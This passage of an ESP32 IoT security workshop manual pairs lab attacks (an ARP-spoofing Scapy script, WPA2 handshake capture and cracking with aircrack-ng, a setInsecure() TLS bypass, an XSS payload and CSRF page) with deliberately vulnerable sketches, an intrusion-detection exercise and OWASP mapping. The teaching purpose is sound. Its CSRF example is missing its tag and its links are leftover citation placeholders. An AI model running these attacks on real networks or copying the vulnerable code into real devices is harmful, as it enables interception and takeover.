| Network port doesn't appear in Arduino IDE | Confirm both laptops are on `IoT-Test-Lab`; restart Arduino IDE after the ESP32 advertises via mDNS |
| OTA upload fails midway | Keep the ESP32 close to the router; avoid heavy WiFi congestion during transfer |

**Why It Matters:** This is a direct demonstration of OWASP IoT Top 10 "Lack of Secure Update Mechanism" — real-world devices with unauthenticated OTA/firmware-update endpoints have been exploited to install persistent malware.

**📚 References:** [ESP-IDF OTA (Over-The-Air) Updates — Official Docs](<cite>turn4search161</cite>) | [ArduinoOTA Setup Guide](<cite>turn4search157</cite>)

---

### 🟣 P17 — Man-in-the-Middle via ARP Spoofing

**Duration:** 40–45 min &nbsp; | &nbsp; **Level:** Expert &nbsp; | &nbsp; **Goal:** Show an on-path (MITM) attack distinct from wireless deauth (P5) — intercepting traffic between a laptop and the ESP32 by poisoning the ARP cache.

**Concept:** ARP (Address Resolution Protocol) has no built-in authentication. An attacker can send forged ARP replies telling both the victim and the router "I am the other party," silently routing all traffic through the attacker's machine.

**Requirements:** ESP32 running P3's insecure web server, attacker laptop with `pip install scapy` (requires admin/root privileges to run).

**Attack script (`p17_arpspoof.py`):**
```python
from scapy.all import ARP, send
import time

victim_ip = "192.168.4.23"      # ESP32 device
gateway_ip = "192.168.4.1"      # Router
victim_mac = "AA:BB:CC:11:22:33"   # get via 'arp -a' beforehand
attacker_mac_note = "Get your own interface MAC via ifconfig/ipconfig"

def spoof(target_ip, spoof_ip):
    packet = ARP(op=2, pdst=target_ip, hwdst=victim_mac, psrc=spoof_ip)
    send(packet, verbose=False)

try:
    while True:
        spoof(victim_ip, gateway_ip)   # tell ESP32: "I am the router"
        spoof(gateway_ip, victim_ip)   # tell router: "I am the ESP32"
        time.sleep(2)
except KeyboardInterrupt:
    print("Stopping ARP spoof, restoring network...")
```

**Step-by-Step:**
1. On the attacker laptop (Linux/WSL recommended), enable IP forwarding so traffic still flows through you (transparent relay):
   ```bash
   sudo sysctl -w net.ipv4.ip_forward=1
   ```
2. Find the ESP32's MAC address: `arp -a` (after pinging it once) and update `victim_mac` in the script.
3. Run the script with root/admin privileges: `sudo python3 p17_arpspoof.py`
4. From another device, browse to the ESP32's web page (`http://192.168.4.23/`) — traffic now silently passes through the attacker's laptop.
5. Open Wireshark on the attacker laptop, filter `ip.addr == 192.168.4.23`, and confirm you can see the victim's HTTP requests being relayed through you.
6. Stop with `Ctrl+C`.

**Troubleshooting:**
| Problem | Fix |
|---|---|
| `scapy` import fails / permission denied | Run with `sudo` (Linux/Mac) or as Administrator (Windows with Npcap installed) |
| Victim loses connectivity entirely | Confirm IP forwarding is enabled so traffic is relayed, not just dropped |
| Can't find victim's MAC | Ping the ESP32 once first (`ping 192.168.4.23`), then check `arp -a` |

**Cleanup:** Press `Ctrl+C` to stop; the ARP cache will naturally re-correct itself within a few minutes, or restart the router to force it.

**Why It Matters:** Demonstrates that WiFi deauth (P5) is not the only way to intercept IoT traffic — a device that "trusts the local network" can still be MITM'd even without disconnecting anyone, reinforcing why TLS (P8) matters at the application layer regardless of network-layer trust.

**📚 References:** [Scapy – Official GitHub Repository](<cite>turn4search162</cite>) | [Scapy Documentation](<cite>turn4search164</cite>)

---

### 🟣 P18 — WPA2 Handshake Capture & Offline Password Strength Audit

**Duration:** 40 min &nbsp; | &nbsp; **Level:** Expert &nbsp; | &nbsp; **Goal:** Show why WiFi password strength matters by capturing the isolated test router's own WPA2 handshake and auditing it offline with a wordlist.

**Concept:** The WPA2 4-way handshake (captured passively or forced via deauth) contains enough cryptographic material to test candidate passwords **offline** — this is why weak/dictionary WiFi passwords are crackable even without ever connecting to the network.

**Requirements:** Marauder ESP32 (or a laptop WiFi adapter that supports monitor mode), `aircrack-ng` suite installed (`sudo apt install aircrack-ng` on Linux/WSL), a small wordlist file.

**⚠️ Strict scope reminder:** Only capture/crack the handshake for `IoT-Test-Lab`, whose password you (the organizer) set and are allowed to test. Never attempt this against any other network.

**Step-by-Step:**
1. Put a WiFi adapter into monitor mode (skip if using Marauder's built-in `sniff pmkid`/handshake capture feature instead):
   ```bash
   sudo airmon-ng check kill
   sudo airmon-ng start wlan0
   ```
2. Capture traffic targeted at `IoT-Test-Lab`:
   ```bash
   sudo airodump-ng --bssid <IoT-Test-Lab BSSID> --channel <channel> -w capture wlan0mon
   ```
3. Force a fresh handshake by briefly deauthing a connected test device (reuse P5's Marauder `attack -t deauth`, or `aireplay-ng --deauth 5 -a <BSSID> wlan0mon`) so it reconnects and the 4-way handshake is captured.
4. Confirm the handshake was captured — `airodump-ng`'s top-right corner should show `WPA handshake: <BSSID>`.
5. Create a small test wordlist containing the actual test password among a few decoys (`echo -e "test123\nTest@12345\npassword1" > wordlist.txt`).
6. Crack offline:
   ```bash
   aircrack-ng -w wordlist.txt -b <BSSID> capture-01.cap
   ```

**Expected Output:** `aircrack-ng` reports `KEY FOUND! [ Test@12345 ]` if the password is in the wordlist — demonstrating that the strength (and wordlist-resistance) of a WiFi password is the only real defense once a handshake is captured.

**Troubleshooting:**
| Problem | Fix |
|---|---|
| No handshake captured after a while | Re-run the deauth step — a handshake only occurs when a client (re)connects |
| `airmon-ng` monitor mode fails | Confirm your WiFi adapter chipset supports monitor mode (many laptop built-in cards do not — a supported USB adapter may be needed) |
| `aircrack-ng: command not found` | Install via `sudo apt install aircrack-ng` (Linux) or use Kali Linux which ships it pre-installed |

**Why It Matters:** Reinforces that router/AP password strength is a foundational IoT security control — the same "capture handshake → offline dictionary attack" pattern is a well-documented, real-world WiFi attack technique <cite>turn4search147</cite>.

**📚 References:** [Aircrack-ng – Official Documentation](<cite>turn4search144</cite>) | [Aircrack-ng — Cracking WPA/WPA2 Tutorial](<cite>turn4search146</cite>) | [Aircrack-ng — WPA Packet Capture Explained](<cite>turn4search145</cite>)

---

### 🟣 P19 — TLS Certificate Validation Bypass (MITM with mitmproxy)

**Duration:** 35–40 min &nbsp; | &nbsp; **Level:** Expert &nbsp; | &nbsp; **Goal:** Show why an HTTPS client that skips certificate validation (`setInsecure()`) is just as vulnerable to interception as plain HTTP.

**Concept:** Many IoT tutorials tell developers to call `setInsecure()` on `WiFiClientSecure` "to make HTTPS work easily," disabling certificate validation entirely. This defeats the entire purpose of TLS and allows a trivial MITM using a tool like mitmproxy.

**Requirements:** ESP32, `mitmproxy` installed on attacker laptop (`pip install mitmproxy`).

**Code (`P19_HTTPS_Insecure.ino`) — a client that fetches from an HTTPS endpoint but skips cert validation:**
```cpp
#include <WiFi.h>
#include <WiFiClientSecure.h>
#include <HTTPClient.h>

const char* ssid     = "IoT-Test-Lab";
const char* password = "Test@12345";

void setup() {
  Serial.begin(115200);
  WiFi.begin(ssid, password);
  while (WiFi.status() != WL_CONNECTED) delay(500);

  WiFiClientSecure client;
  client.setInsecure();          // <-- THE VULNERABILITY: skips all certificate checks

  HTTPClient https;
  // Point at the attacker's mitmproxy IP:port instead of the real server for this demo
  https.begin(client, "https://192.168.4.1:8080/status");
  int code = https.GET();
  Serial.printf("HTTPS GET response: %d\n", code);
  Serial.println(https.getString());
  https.end();
}

void loop() {}
```

**Step-by-Step:**
1. On the attacker laptop, start mitmproxy in transparent/regular proxy mode: `mitmproxy` (or `mitmweb` for a browser UI).
2. Configure the ESP32's WiFi/network route (or simply point the demo request directly at the mitmproxy IP as shown above) so its HTTPS traffic passes through the proxy.
3. Upload and run the sketch — because `setInsecure()` was used, the ESP32 **accepts mitmproxy's self-signed certificate without complaint**.
4. On the attacker laptop, watch the mitmproxy console — the full decrypted HTTPS request/response is visible in plaintext, exactly like the cleartext HTTP in P4.

**Defensive fix:** Replace `client.setInsecure()` with `client.setCACert(root_ca)`, pinning the real server's CA certificate (same pattern as P8's `setCACert` fix for MQTT) — mitmproxy's certificate will now be rejected and the connection will fail closed.

**Troubleshooting:**
| Problem | Fix |
|---|---|
| ESP32 connection just times out | Confirm mitmproxy is listening on the IP/port the sketch targets, and both are on `IoT-Test-Lab` |
| mitmproxy shows no traffic | Confirm the ESP32 sketch is actually pointed at the proxy's IP, not the real internet host |

**Why It Matters:** This is one of the most common real-world IoT firmware mistakes — `setInsecure()`/equivalent "skip cert validation" flags appear in countless tutorials and even some shipped products, silently reducing HTTPS to "HTTP with extra steps" for an attacker who can position themselves on the network.

**📚 References:** [mitmproxy – Official Site](<cite>turn4search169</cite>) | [mitmproxy – GitHub Repository](<cite>turn4search168</cite>) | [How mitmproxy Works – Official Docs](<cite>turn4search172</cite>)

---

### 🟠 P20 — Web Application Vulnerabilities on the IoT Dashboard (XSS & CSRF)

**Duration:** 40 min &nbsp; | &nbsp; **Level:** Advanced &nbsp; | &nbsp; **Goal:** Show that the tiny web UIs embedded in IoT devices suffer from the same classic web vulnerabilities as full web applications.

**Concept:** Many real router/IoT admin panels reflect user input directly into HTML without sanitizing it (Cross-Site Scripting) and accept state-changing requests without any anti-CSRF token (Cross-Site Request Forgery) — exactly what P3's server does.

**Requirements:** ESP32 running an extended version of P3's server, any laptop browser.

**Code (`P20_XSS_Server.ino` — add a vulnerable "device name" field to P3's server):**
```cpp
#include <WiFi.h>
#include <WebServer.h>

const char* ssid     = "IoT-Test-Lab";
const char* password = "Test@12345";
WebServer server(80);
String deviceName = "MyDevice";

void handleSetName() {
  deviceName = server.arg("name");   // VULNERABLE: no sanitization/escaping
  server.send(200, "text/html", "<a href='/'>Back</a>");
}

void handleRoot() {
  String html = "<h1>Device: " + deviceName + "</h1>"    // reflected directly into HTML - XSS!
    "<form action='/setname'><input name='name'><input type='submit'></form>"
    "<a href='/led/on'>Turn ON</a> | <a href='/led/off'>Turn OFF</a>";
  server.send(200, "text/html", html);
}
void handleOn()  { digitalWrite(2, HIGH); server.send(200, "text/plain", "ON");  }
void handleOff() { digitalWrite(2, LOW);  server.send(200, "text/plain", "OFF"); }

void setup() {
  Serial.begin(115200);
  pinMode(2, OUTPUT);
  WiFi.begin(ssid, password);
  while (WiFi.status() != WL_CONNECTED) delay(500);
  Serial.println("Device IP: " + WiFi.localIP().toString());
  server.on("/", handleRoot);
  server.on("/setname", handleSetName);
  server.on("/led/on", handleOn);
  server.on("/led/off", handleOff);
  server.begin();
}
void loop() { server.handleClient(); }
```

**Part A — Stored XSS demo:**
1. Visit `http://<esp32-ip>/`, in the "name" field enter: `<script>alert('XSS: device hijacked')</script>`
2. Submit — then reload the root page (`/`). A JavaScript alert box pops up, proving the browser executed attacker-supplied script simply by loading the device's own dashboard.
3. Discuss: a real attacker would replace `alert()` with code that silently exfiltrates the viewer's session or auto-submits further requests (leading directly into Part B).

**Part B — CSRF demo:**
1. Create a plain HTML file on the attacker's laptop, `evil_page.html`:
   ```html
   <html><body>
     <h3>Totally harmless page...</h3>
     
   </body></html>
   ```
2. Open `evil_page.html` in a browser **while connected to `IoT-Test-Lab`** (simulating a victim who visits any malicious webpage while on the same network as their IoT device).
3. Observe: the ESP32's LED turns ON — the victim never clicked anything related to the device; simply *loading* the malicious page triggered the request because the browser auto-fetches the `` tag, and the device has no CSRF token or authentication to reject it.

**Troubleshooting:**
| Problem | Fix |
|---|---|
| Alert box doesn't pop up | Confirm the exact `<script>` payload was submitted and the page was reloaded afterward |
| CSRF `` trick doesn't trigger | Confirm the victim browser is on the same `IoT-Test-Lab` network as the ESP32; some browsers block mixed-content auto-loads — try a direct link instead of `` |

**Why It Matters:** These are two of the most common vulnerability classes in the entire web (OWASP Top 10 web risks), and they appear routinely in real router/IoT device admin panels — reinforcing that "it's just a tiny embedded web server" doesn't exempt a device from standard web security hygiene (input sanitization + anti-CSRF tokens).

**📚 References:** [OWASP Top 10 – General Web/App Security Reference](<cite>turn3search75</cite>) | [OWASP IoT Top 10](<cite>turn3search74</cite>)

---

### 🟠 P21 — BLE Beacon Spoofing / Asset Tracker Impersonation

**Duration:** 30 min &nbsp; | &nbsp; **Level:** Advanced &nbsp; | &nbsp; **Goal:** Show how BLE beacons (used in asset tracking, indoor positioning, contact-tracing style apps) can be impersonated by any nearby ESP32.

**Concept:** BLE beacons (iBeacon-style) simply broadcast an identifying UUID/major/minor value with **no cryptographic signature**. Any device can broadcast the same identifier and be indistinguishable to a scanning app.

**Requirements:** Two ESP32 boards (or one ESP32 + a beacon-scanning phone app), nRF Connect for Mobile.

**Code (`P21_BLE_Beacon.ino` — legitimate "Asset Tag A1" beacon):**
```cpp
#include <BLEDevice.h>
#include <BLEBeacon.h>
#include <BLEAdvertising.h>

#define BEACON_UUID "8ec76ea3-6668-48da-9866-75be8bc86f4d"

void setup() {
  Serial.begin(115200);
  BLEDevice::init("AssetTag-A1");
  BLEBeacon beacon;
  beacon.setManufacturerId(0x4C00);
  beacon.setProximityUUID(BLEUUID(BEACON_UUID));
  beacon.setMajor(1);
  beacon.setMinor(1);   // "Asset Tag A1" identifier

  BLEAdvertising *pAdvertising = BLEDevice::getAdvertising();
  BLEAdvertisementData advData;
  advData.setFlags(0x04);
  advData.setManufacturerData(beacon.getData());
  pAdvertising->setAdvertisementData(advData);
  pAdvertising->start();
  Serial.println("Legit AssetTag-A1 beacon broadcasting...");
}
void loop() {}
```

**Step-by-Step — Attack (on a second ESP32):**
1. Upload the **identical** code (same `BEACON_UUID`, `Major`, `Minor`) to a second ESP32 — this is the "spoofed" beacon impersonating the same asset tag.
2. Open nRF Connect on a phone and scan for BLE devices — you will see **two separate physical devices both broadcasting the exact same identifying UUID/Major/Minor**, indistinguishable to any tracking app that only checks those fields.
3. Discuss: in a real asset-tracking or indoor-positioning system, this means an attacker can plant a spoofed beacon to make a tracking dashboard believe an asset/person is in a location where they are not — a **location integrity / spoofing attack**.

**Troubleshooting:**
| Problem | Fix |
|---|---|
| Beacon doesn't appear in nRF Connect | Confirm BLE is enabled on the phone; some phones filter by beacon format — check "Raw" scan mode |
| Both beacons show different UUIDs | Double-check you copied the exact same `BEACON_UUID`, Major, and Minor onto both boards |

**Why It Matters:** Demonstrates that identity in wireless IoT (BLE beacons, similar to the RFID UID weakness in P9) is often just a broadcast value with no proof of authenticity — the same root cause pattern reappears across completely different wireless technologies.

**📚 References:** [ESP32 Arduino BLE Library (bundled)](<cite>turn3search83</cite>) | [nRF Connect for Mobile – Nordic Semiconductor](<cite>turn3search68</cite>)

---

### 🟣 P22 — Build a Simple WiFi Intrusion Detection System (Defensive Project)

**Duration:** 40–45 min &nbsp; | &nbsp; **Level:** Expert &nbsp; | &nbsp; **Goal:** Flip the day around — instead of attacking, build a defensive tool that *detects* the deauth attack from P5 and the evil-twin clone from P6.

**Concept:** The ESP32 WiFi driver supports a **promiscuous mode** that can sniff raw 802.11 management frames off the air, without needing to be connected to any network <cite>turn4search140</cite>. By watching for deauthentication frames or a duplicate SSID with a different BSSID, a device can raise an alert.

**Requirements:** A third ESP32 (or reuse the Marauder board after re-flashing back to Arduino), ESP-IDF or Arduino-ESP32 core (`esp_wifi.h`).

**Code (`P22_WiFi_IDS.ino` — simplified concept, using promiscuous mode callback):**
```cpp
#include <WiFi.h>
extern "C" {
  #include "esp_wifi.h"
}

#define LED_ALERT 2

void IRAM_ATTR snifferCallback(void *buf, wifi_promiscuous_pkt_type_t type) {
  if (type != WIFI_PKT_MGMT) return;
  wifi_promiscuous_pkt_t *pkt = (wifi_promiscuous_pkt_t *)buf;
  uint8_t frameType = pkt->payload[0];

  // 0xC0 = Deauthentication frame, 0xA0 = Disassociation frame
  if (frameType == 0xC0 || frameType == 0xA0) {
    Serial.println("[ALERT] Deauthentication/Disassociation frame detected!");
    digitalWrite(LED_ALERT, HIGH);
  }
}

void setup() {
  Serial.begin(115200);
  pinMode(LED_ALERT, OUTPUT);
  WiFi.mode(WIFI_MODE_STA);
  esp_wifi_set_promiscuous(true);
  esp_wifi_set_promiscuous_rx_cb(&snifferCallback);
  Serial.println("WiFi IDS active - monitoring for deauth attacks...");
}

void loop() {
  delay(1000);
  digitalWrite(LED_ALERT, LOW);   // auto-clear alert LED each second unless retriggered
}
```

**Run & Verify:**
1. Flash this sketch to the "IDS" ESP32 and open its Serial Monitor.
2. On the Marauder board (P5), run `attack -t deauth` targeting `IoT-Test-Lab` again.
3. The IDS board's Serial Monitor should immediately print `[ALERT] Deauthentication/Disassociation frame detected!` and its LED should flash — proving the attack from P5 is now *detectable*.

**Extension idea for fast finishers:** Add logic to also track "duplicate SSID, different BSSID" (evil-twin detection from P6) by parsing beacon frames and comparing BSSIDs seen for `IoT-Test-Lab` over time.

**Troubleshooting:**
| Problem | Fix |
|---|---|
| No alerts ever trigger | Confirm the IDS board and the Marauder attack both target the same channel; promiscuous mode is per-channel |
| Compilation errors on `esp_wifi.h` | Ensure ESP32 board package is up to date (`Tools > Board > Boards Manager`) |

**Why It Matters:** This is the perfect capstone-style "blue team" exercise — students who spent the day attacking now build the corresponding defensive monitoring tool, reinforcing that detection is often possible even for attacks (like deauth) that can't be fully "patched" at the protocol level without WPA3/PMF.

**📚 References:** [ESP-IDF WiFi Sniffer Mode – Official Docs](<cite>turn4search140</cite>) | [ESP32 WiFi Sniffer Example Project](<cite>turn4search138</cite>) | [ESP32 Probe/Deauth Sniffer – Educational Reference](<cite>turn4search141</cite>)

---

### 🟡 P23 — Automated Vulnerability Scanning of the IoT Device (Nmap)

**Duration:** 20–25 min &nbsp; | &nbsp; **Level:** Intermediate &nbsp; | &nbsp; **Goal:** Show how quickly an attacker can fingerprint and enumerate an IoT device's exposed services using a standard, widely-available scanner — no custom code needed.

**Concept:** Nmap is the industry-standard network scanner. Running it against an IoT device instantly reveals open ports, running services, and (via its scripting engine) common web misconfigurations — exactly what a real attacker would do as their *first* reconnaissance step before any of P3–P20's specific attacks.

**Requirements:** ESP32 running P3's (or P20's) web server, Nmap installed on any laptop (`sudo apt install nmap` / [nmap.org downloads](<cite>turn4search150</cite>)).

**Step-by-Step:**
```bash
# Basic port scan
nmap 192.168.4.23

# Service/version detection scan
nmap -sV 192.168.4.23

# Run default HTTP enumeration scripts
nmap --script http-title,http-headers,http-methods 192.168.4.23
```

**Expected Output:**
```
PORT   STATE SERVICE
80/tcp open  http

Service detection performed.
| http-title: Smart Device Control Panel
| http-headers:
|   Content-Type: text/html
```

**Discussion points:**
- In under 10 seconds and with zero custom code, an attacker now knows: the device is alive, port 80 is open, it's running an HTTP service, and its page title — enough to decide whether it's worth further attacking (exactly the reconnaissance step that would precede P3/P4/P15/P20 in a real attack chain).
- Compare against the hardened P8 setup (MQTT over 8883/TLS) — scan that port too (`nmap -sV -p 8883 192.168.4.1`) and discuss how Nmap correctly identifies it as an SSL/TLS service, illustrating that encryption doesn't hide a service's *existence*, only its *contents*.

**Troubleshooting:**
| Problem | Fix |
|---|---|
| `nmap: command not found` | Install via package manager, or download from [nmap.org](<cite>turn4search150</cite>) |
| Scan shows the port as filtered/closed | Confirm the ESP32 is powered on and connected to `IoT-Test-Lab`; confirm correct IP |

**Why It Matters:** Reinforces that professional attackers rarely write custom exploits first — they scan and enumerate. This is also the natural starting point for any student who wants to explore IoT security further as a hobby or career skill.

**📚 References:** [Nmap – Official Project Guide](<cite>turn4search150</cite>) | [Nmap – GitHub Repository](<cite>turn4search153</cite>)

---

## 10. Master Troubleshooting Table

| Symptom | Likely Cause | Fix |
|---|---|---|
| "Failed to connect to ESP32" during upload | Board not in bootloader mode | Hold **BOOT** button while upload starts |
| No COM port detected at all | Missing USB-serial driver | Install CP2102 or CH340 driver matching your board |
| WiFi never connects | Wrong SSID/password, or router down | Re-check credentials; confirm router LED is on and broadcasting |
| Web page loads but nothing happens | Wrong GPIO pin in code vs. actual wiring | Confirm `#define` pin numbers match physical wiring |
| Wireshark shows no packets | Wrong network interface selected | Select the WiFi adapter connected to `IoT-Test-Lab`, not Ethernet |
| Marauder deauth has no effect | Wrong AP selected, or target has PMF/WPA3 protection | Re-run `list -a` and `select -a` carefully; test lab AP should have PMF disabled |
| Evil Portal doesn't show on victim device | Portal not auto-triggering | Manually browse to a non-HTTPS site to force portal redirect |
| MQTT publish/subscribe fails | Broker not running, or wrong IP/port | Confirm organizer's Mosquitto is running and reachable; check firewall on port 1883/8883 |
| RFID reads nothing | SPI wiring incorrect | Recheck SS/RST/SCK/MOSI/MISO pins against the wiring table |
| BLE device doesn't appear in nRF Connect | BLE not advertising, or phone Bluetooth off | Confirm `BLEDevice::getAdvertising()->start()` ran; toggle phone Bluetooth |
| `esptool.py` read/write fails midway | Loose USB connection or wrong baud | Reseat cable; retry with `--baud 115200` instead of higher speeds |
| `scapy`/ARP spoof script needs elevated permissions | Raw socket access requires root/admin | Run with `sudo` (Linux/Mac) or as Administrator with Npcap installed (Windows) |
| `aircrack-ng` monitor mode won't start | WiFi adapter chipset doesn't support monitor mode | Use a supported external USB adapter, or Kali Linux live USB |
| Nmap shows all ports filtered | Device offline or firewall/isolation blocking scan | Confirm ESP32 is powered and on `IoT-Test-Lab`; verify IP |

---

## 11. Wrap-Up: OWASP IoT Top 10 Mapping & Takeaways

Close the day by mapping every practical back to the industry-standard **[OWASP IoT Top 10](<cite>turn3search74</cite>)** vulnerability classes — this gives students a professional vocabulary for their reports/resumes:

| OWASP IoT Top 10 Category | Demonstrated In |
|---|---|
| I1 — Weak, Guessable, or Hardcoded Passwords | P3, P11, P15 |
| I2 — Insecure Network Services | P3, P5, P7, P23 |
| I3 — Insecure Ecosystem Interfaces | P6, P20 |
| I4 — Lack of Secure Update Mechanism | P12 (discussion), P16 |
| I5 — Use of Insecure or Outdated Components | P9 (Mifare Classic UID weakness) |
| I6 — Insufficient Privacy Protection | P7, P6, P21 |
| I7 — Insecure Data Transfer and Storage | P4, P7 vs. P8, P11, P17, P19 |
| I8 — Lack of Device Management | P13 |
| I9 — Insecure Default Settings | P3, P7 (`allow_anonymous`), P16 |
| I10 — Lack of Physical Hardening | P9, P11, P12 |

**Key takeaways to leave students with:**
- Encryption (TLS/HTTPS) and authentication are not optional extras for IoT — they are the baseline (P3→P4 vs. P7→P8, and P19).
- Physical/UART access to a device should be assumed possible — never hardcode secrets in firmware (P11→P12).
- Every wireless protocol (WiFi, BLE, RFID) they used today has a "convenient but insecure" default mode and a "secure" mode — knowing both is what separates a security engineer from a hobbyist.
- Attackers usually start with simple, automated reconnaissance (P23) long before writing any custom exploit — defenders should assume their device *will* be scanned.
- Detection (P22) is just as valuable a skill as exploitation — every "red team" practical today has a corresponding "blue team" opportunity.

---

## 12. Post-Workshop Resources

A complete, categorized reference library — every tool, library, and standard used in this workshop, for students to bookmark and continue exploring after the session.

### 12.1 ESP32 Hardware & Core Platform
| Resource | Link |
|---|---|
| Arduino IDE (official installer) | [arduino.cc/en/software](https://www.arduino.cc/en/software) |
| ESP32 Arduino Core (espressif/arduino-esp32) | [GitHub Repository](<cite>turn3search80</cite>) |
| ESP32 Arduino Core — Installation Guide | [Official Docs](<cite>turn3search82</cite>) |
| ESP32 Arduino Core — Full Documentation | [documentation.espressif.com](<cite>turn3search83</cite>) |
| ESP32 DevKit V1 Pinout Diagram & Reference | [circuitstate.com](<cite>turn3search133</cite>) |
| esptool (flashing/firmware utility) | [Official Espressif Docs](<cite>turn3search32</cite>) · [GitHub Repository](<cite>turn3search36</cite>) |
| ESP-IDF OTA Update System | [Official Espressif Docs](<cite>turn4search161</cite>) |
| ArduinoOTA Setup Reference | [Tutorial Reference](<cite>turn4search157</cite>) |
| ESP-IDF WiFi Sniffer / Promiscuous Mode | [Official Docs](<cite>turn4search140</cite>) |

### 12.2 Sensor & Peripheral Libraries
| Resource | Link |
|---|---|
| DHT sensor library (Adafruit) | [GitHub Repository](<cite>turn3search44</cite>) |
| MFRC522 RFID library (miguelbalboa) | [GitHub Repository](<cite>turn3search56</cite>) · [Arduino Library Docs](<cite>turn3search59</cite>) |
| PubSubClient MQTT library (knolleary) | [GitHub Repository](<cite>turn3search26</cite>) · [API Documentation](<cite>turn3search31</cite>) |

### 12.3 Wireless Security Tools
| Resource | Link |
|---|---|
| ESP32Marauder (WiFi/BT recon & testing firmware) | [GitHub Repository](<cite>turn3search51</cite>) · [Releases & Install Instructions](<cite>turn3search50</cite>) · [Architecture Overview (DeepWiki)](<cite>turn3search54</cite>) |
| nRF Connect for Mobile (BLE scanner/tool) | [Nordic Semiconductor — Product Page](<cite>turn3search68</cite>) · [Google Play](<cite>turn3search69</cite>) |
| Wireshark (packet analyzer) | [Official Download](<cite>turn3search99</cite>) · [Documentation Hub](<cite>turn3search98</cite>) |
| Aircrack-ng suite (WiFi handshake capture/audit) | [Official Documentation](<cite>turn4search144</cite>) · [Cracking WPA/WPA2 Tutorial](<cite>turn4search146</cite>) |
| Scapy (packet crafting library) | [GitHub Repository](<cite>turn4search162</cite>) · [Official Docs](<cite>turn4search164</cite>) |
| Nmap (network scanner) | [Official Project Guide](<cite>turn4search150</cite>) · [GitHub Repository](<cite>turn4search153</cite>) |
| mitmproxy (TLS-intercepting proxy) | [Official Site](<cite>turn4search169</cite>) · [GitHub Repository](<cite>turn4search168</cite>) |

### 12.4 Protocols & Standards
| Resource | Link |
|---|---|
| MQTT Version 5.0 Specification | [OASIS Standard](<cite>turn3search105</cite>) |
| MQTT — Why MQTT / Protocol Overview | [mqtt.org](<cite>turn3search106</cite>) |
| Eclipse Mosquitto (MQTT broker) | [Official Site](<cite>turn3search38</cite>) · [Documentation](<cite>turn3search39</cite>) |
| OpenSSL (TLS/certificate toolkit) | [Official Documentation](<cite>turn3search92</cite>) · [openssl-library.org](<cite>turn3search95</cite>) |

### 12.5 Security Standards & Hardening References
| Resource | Link |
|---|---|
| OWASP IoT Top 10 | [OWASP Nest Project Page](<cite>turn3search74</cite>) |
| OWASP Top 10 (general web/app security reference) | [owasp.org/projects/top-ten](<cite>turn3search75</cite>) |
| ESP-IDF Secure Boot V2 | [Official Espressif Docs](<cite>turn3search62</cite>) |
| ESP-IDF Flash Encryption | [Official Espressif Docs](<cite>turn3search63</cite>) |

### 12.6 Legal Reference (India)
| Resource | Link |
|---|---|
| IT Act, 2000 — Section 43 (unauthorized access, civil liability) | [Indian Kanoon](<cite>turn3search86</cite>) |
| IT Act, 2000 — Section 66 (hacking, criminal liability) | [Cyber Crime Offences under IT Act 2000 — overview](<cite>turn3search90</cite>) |

### 12.7 Next Steps for Students
- Push your solved-CTF write-up (P14) to a personal GitHub repo as a portfolio piece for placements/interviews.
- Explore the OWASP IoT Top 10 project page in depth — it's actively maintained and a great citation source for security reports.
- Consider ESP-IDF (rather than Arduino) for any follow-on project involving Secure Boot, Flash Encryption, or the P22 WiFi IDS at a production level.
- Try combining P17 (ARP spoofing) + P19 (TLS bypass) into a single "full MITM chain" exercise as a personal project.

---

*End of manual. Print or upload as-is to GitHub for student self-study reference.*
